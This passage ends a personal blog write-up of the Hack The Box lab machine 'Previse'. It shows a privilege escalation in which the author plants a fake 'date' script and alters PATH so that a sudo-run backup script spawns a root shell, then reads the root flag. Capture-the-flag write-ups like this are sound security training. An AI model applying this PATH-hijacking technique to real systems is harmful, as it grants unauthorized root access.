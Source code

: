 Examining the script, it looks like development negligence turned in my favor. Both the `gzip` and `date` binaries are referenced relatively; therefore, we can edit PATH to point to my own `gzip`/`date` script(s). Consider the following commands, given that I have created a `date` program in `/home/m4lwhere`:
```none
m4lwhere@previse:~$ export PATH=:/home/m4lwhere
m4lwhere@previse:~$ /bin/cat date
#!/bin/bash
/bin/su
m4lwhere@previse:~$ /usr/bin/sudo /opt/scripts/access_backup.sh 
root@previse:/home/m4lwhere# 
```

Root access has been granted!

### Obtaining the SYSTEM Flag
All that is left is to print the SYSTEM flag:
```none
root@previse:/home/m4lwhere# ls /root
root.txt
root@previse:/home/m4lwhere# cat /root/root.txt
<REDACTED>
```

And there it is — the SYSTEM flag! The flag was accepted by HTB; thus, [Previse is complete](https://www.hackthebox.com/achievement/machine/787255/373).


## Conclusion
This was a very fun CTF overall, which I admit I found challenging despite the low difficulty rating relative to other HTB challenges. I had a lot of fun working on Previse, and it felt noticeably more accessible to me than some other HTB machines I've attempted. I learned a lot and I encourage others interested in red team security activities to give their own best effort toward this challenge... even if they end up with 50+ open browser tabs at the end like I did.

I hope you found this guide helpful or inspirational. Thank you so much for reading, and check back soon for more activity reports.

-Sid

https://www.hackthebox.com/achievement/machine/787255/373

![https://www.hackthebox.com/achievement/machine/787255/373](/documents/previse6.png)

*Feedback? [I can be reached via email](mailto:contact@swlacy.com?subject=Previse%20Report).*